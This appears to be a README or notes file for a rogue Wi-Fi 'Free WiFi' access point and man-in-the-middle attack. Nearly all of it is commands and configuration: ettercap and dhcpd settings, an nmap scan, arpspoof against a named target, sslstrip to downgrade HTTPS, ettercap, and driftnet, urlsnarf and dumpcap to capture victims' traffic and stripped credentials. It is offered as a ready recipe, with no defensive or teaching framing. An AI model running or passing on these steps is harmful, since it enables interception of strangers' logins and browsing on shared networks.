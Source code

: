 # SSL Strip

# add a fix me script, using assets
./airbase-start.sh
./rogue-mitm.sh
sslstrip -f -p -k 10000
ettercap -p -u -T -q -i at0
driftnet -i eth0

## Manual Setup

	nano etter.conf
```
[privs]
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default

# if you use iptables:
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %por$
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %po$
```

	nano dhcpd.conf
```
subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name "Free WiFi";
option domain-name-servers 10.0.0.1;

range 10.0.0.20 10.0.0.50;
}
```

## Commands

	netdiscover

#nmap -sS -O {gateway}
	nmap -sS -O 192.168.1.1/24

#arpspoof -i {interface} -t {target} -r {gateway}
	arpspoof -i eth0 -t 192.168.1.25 -r 192.168.1.1

#sslstrip -f -p -k {port}
	sslstrip -f -p -k 10000

#ettercap -p -u -T -q -i {interface}
	ettercap -p -u -T -q -i at0

---

# read strip log
	cat ~/sslstrip.log

# wireshark
	dumpcap -i wlan0

# monitor
	driftnet -i wlan0
	urlsnarf -i wlan0


